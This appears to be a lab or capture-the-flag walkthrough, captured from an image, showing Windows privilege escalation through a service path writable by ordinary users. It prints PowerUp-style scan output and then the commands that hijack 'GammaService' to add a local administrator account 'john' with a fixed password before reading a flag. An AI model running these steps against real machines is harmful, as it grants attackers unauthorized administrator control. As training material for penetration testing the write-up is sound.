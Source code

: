 ServiceName    : GammaService
Path           : C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
ModifiablePath : @{ModifiablePath=C:\Program Files\Enterprise Apps; IdentityReference=BUILTIN\Users;
                 Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'GammaService' -Path <HijackPath>
CanRestart     : True
Name           : GammaService

ServiceName    : GammaService
Path           : C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
ModifiablePath : @{ModifiablePath=C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe;
                 IdentityReference=BUILTIN\Users; Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'GammaService' -Path <HijackPath>
CanRestart     : True
Name           : GammaService

# Above results shows that the GammaService was identified as vulnerable. Let's use the AbuseFunction and restart the service to attempt to elevate our privileges.

PS C:\Users\steve> Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"
GammaService C:\Program Files\Enterprise Apps\Current.exe net user john Password123! /add && timeout /t 5 && net loc...
PS C:\Users\steve> restart-service GammaService
PS C:\Users\steve> net user
...
john
...

# Now we will see the john user is added

PS C:\Users\steve> net localgroup administrators
...
john
...

# Access to john users
PS C:\Users\steve> start-process PowerShell -verb runas
PS C:\Users\daveadmin\Desktop> type flag.txt
OS{eabe79aaf3a5164e1b6630e72f0615f0}

